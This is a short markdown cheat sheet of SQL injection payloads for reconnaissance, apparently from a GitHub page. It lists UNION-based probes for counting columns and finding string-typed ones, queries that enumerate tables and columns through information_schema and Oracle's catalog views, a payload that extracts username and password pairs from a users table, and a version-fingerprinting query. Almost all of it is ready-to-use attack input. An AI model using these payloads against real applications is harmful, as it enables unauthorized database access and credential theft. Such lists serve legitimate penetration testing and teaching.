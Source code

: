 ### Reconnaissance

**Note** This is some payload of MySQL, others can be different.

#### Get information of table

Get all tables name:

```sql
    SELECT * FROM information_schema.tables -- NonOracle
    SELECT * FROM all_tables -- Oracle 
```

#### Get information of column

Detect number of columns:

```sql
    ' ORDER BY 1--
    ' ORDER BY 2--
    ' ORDER BY 3--
    ...

    ' UNION SELECT NULL--
    ' UNION SELECT NULL,NULL--
    ' UNION SELECT NULL,NULL,NULL--
    ...
```

Finding columns with a useful data type:

```sql
    ' UNION SELECT 'a',NULL,NULL,NULL--
    ' UNION SELECT NULL,'a',NULL,NULL--
    ' UNION SELECT NULL,NULL,'a',NULL--
    ' UNION SELECT NULL,NULL,NULL,'a'--
```

Get all columns name in table:

```sql
    SELECT * FROM information_schema.columns WHERE table_name = 'table_name' -- NonOracle
    SELECT * FROM all_tab_columns WHERE table_name = 'table_name' -- Oracle
```

Retrieving multiple values within a single column

```sql
    ' UNION SELECT username || '~' || password FROM users--
```

The **double-pipe sequence ||** which is a string concatenation operator on **Oracle**. The injected query concatenates together the values of the username and password fields, separated by **the ~ character**. The result from the query is `username~password`

#### Get version of database

```sql
    ' UNION SELECT @@version,NULL,NULL,NULL--
```
